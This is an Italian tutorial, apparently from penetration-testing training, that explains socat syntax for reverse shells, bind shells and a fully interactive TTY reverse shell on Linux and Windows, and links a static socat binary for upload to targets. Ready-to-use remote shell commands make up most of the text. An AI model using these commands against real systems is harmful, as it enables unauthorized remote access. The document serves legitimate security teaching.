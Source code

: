 Socat è simile a netcat per certi versi, ma fondamentalmente diverso per molti altri. Il modo più semplice per pensare a socat **è** come a un **connettore tra due punti**. 

Ancora una volta, cominciamo con le shell inverse.

# Reverse Shell

Come accennato in precedenza, la **sintassi** per **socat** diventa molto più **difficile** di quella di netcat. Ecco la sintassi per un listener di reverse shell di base in socat:

- **`socat TCP-L:<port> -`**

Come sempre con socat, questo **richiede due punti** (**una porta di ascolto e un input standard**) e collegandoli insieme. La shell risultante è instabile, ma funzionerà sia su Linux che su Windows ed è equivalente a **`nc -lvnp <port>`**.

Su Windows useremmo questo comando per riconnetterci:

- **`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`**

L'opzione "pipes" viene utilizzata per forzare PowerShell (o cmd.exe) a utilizzare input e output standard in stile Unix.

Questo è il comando equivalente per un Target Linux :

- **`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`**

# Bind Shell

Su un target Linux useremmo il seguente comando:

- **`socat TCP-L:<PORT> EXEC:"bash -li"`**

Su un target Windows useremmo questo comando per il nostro listener:

- **`socat TCP-L:<PORT> EXEC:powershell.exe,pipes`**

Utilizziamo l'argomento "pipes" per creare un'interfaccia tra i metodi Unix e Windows di gestione dell'input e dell'output in un ambiente CLI .

**Indipendentemente dal bersaglio**, utilizziamo questo comando sulla macchina attaccante per **connetterci all'ascoltatore in attesa**.

- **`socat TCP:<TARGET-IP>:<TARGET-PORT> -`**

---

# Usi potenti di Socat:

Una shell reverse tty Linux completamente stabile . Funzionerà solo quando il target è Linux , ma è *significativamente* più stabile. Come accennato in precedenza, socat è uno strumento incredibilmente versatile; tuttavia, la seguente tecnica è forse una delle sue applicazioni più utili. Ecco **la nuova sintassi dell'ascoltatore:**

- **`socat TCP-L:<port> FILE:`tty`,raw,echo=0`**

Scomponiamo questo comando in due parti. Come al solito, stiamo collegando due punti insieme. **In questo caso, quei punti sono una porta di ascolto e un file**. Nello specifico, stiamo passando il **TTY** corrente come un **file** e i**mpostando l'echo a zero**. Ciò equivale approssimativamente a usare il **`stty raw -echo; fg`**trucco Ctrl + Z con una shell netcat, con il vantaggio aggiuntivo di essere immediatamente stabile e agganciarsi a un tty completo.

Il primo listener può essere connesso con qualsiasi payload; Alcuni  **payload per funzionare devo interagire con la macchina target avente installato socat. Ciò significa che il target deve avere socat installato.** La maggior parte delle macchine non ha socat installato di default, tuttavia, è possibile caricare un [binario socat precompilato](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) , che può quindi essere eseguito normalmente.

**Il comando speciale è il seguente:**

- **`socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`**

Si tratta di un argomento piuttosto vasto, quindi analizziamolo nel dettaglio.

La prima parte è semplice: ci colleghiamo con l'ascoltatore in esecuzione sulla nostra macchina. La seconda parte del comando crea una sessione bash interattiva con  **`EXEC:"bash -li"`**. Stiamo anche passando gli argomenti: pty, stderr, sigint, setsid e sane:

- **pty**, alloca uno pseudo terminale sul target -- parte del processo di stabilizzazione
- **stderr**, assicura che tutti i messaggi di errore vengano visualizzati nella shell (spesso un problema con le shell non interattive)
- **sigint**, passa tutti i comandi Ctrl + C nel sottoprocesso, consentendoci di terminare i comandi all'interno della shell
- **setsid**, crea il processo in una nuova sessione
- **sane**, stabilizza il terminale, tentando di "normalizzarlo".

C'è molto da assimilare, quindi vediamolo in azione.

Come al solito, sulla **sinistra** abbiamo un **listener** in esecuzione sulla nostra **macchina** di attacco **locale**, sulla **destra** abbiamo una simulazione di un **obiettivo** compromesso, in esecuzione con una **shell non interattiva**. Utilizzando la shell netcat non interattiva, **eseguiamo il comando speciale socat e riceviamo una shell bash completamente interattiva sul listener socat a sinistra:**

![image](https://github.com/user-attachments/assets/1873994e-57b3-4f91-80dc-ffda2ccd661f)

Nota che la shell socat è completamente interattiva, consentendoci di usare comandi interattivi come SSH . Questo può essere ulteriormente migliorato impostando i valori stty come visto nel task precedente, che ci permetterà di usare editor di testo come Vim o Nano.

---

Se, in qualsiasi momento, una shell socat non funziona correttamente, vale la pena di aumentarne la verbosità aggiungendo **`-d -d`**nel comando. Questo è molto utile per scopi sperimentali, ma di solito non è necessario per un uso generale.
